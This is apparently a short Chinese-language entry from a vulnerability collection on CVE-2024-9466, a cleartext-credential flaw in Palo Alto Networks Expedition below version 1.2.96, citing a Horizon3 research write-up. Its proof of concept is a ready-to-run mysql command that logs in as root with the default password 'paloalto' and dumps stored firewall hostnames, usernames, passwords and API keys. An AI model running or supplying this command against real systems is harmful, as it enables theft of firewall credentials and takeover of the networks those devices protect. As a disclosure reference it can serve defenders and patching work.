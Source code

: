 # CVE-2024-9466
>   Palo Alto Networks Expedition是Palo Alto Networks提供的一款迁移工具，旨在帮助网络安全团队进行防火墙规则的迁移、优化和管理。

## 来源

[https://www.horizon3.ai/attack-research/palo-alto-expedition-from-n-day-to-full-compromise](https://www.horizon3.ai/attack-research/palo-alto-expedition-from-n-day-to-full-compromise)

## 简介

Palo Alto Networks Expedition存在明文存储敏感信息漏洞，允许经过身份验证的攻击者获取使用这些凭据生成的防火墙用户名、密码和API密钥。

## 影响范围

-   Palo Alto Networks Expedition < 1.2.96

## 漏洞类型

明文存储

## POC

```shell
mysql -u root -p'paloalto' pandbRBAC -e 'SELECT hostname,key_name,api_key,user_name,user_password FROM device_keys dk, devices d WHERE dk.device_id=d.id'
```

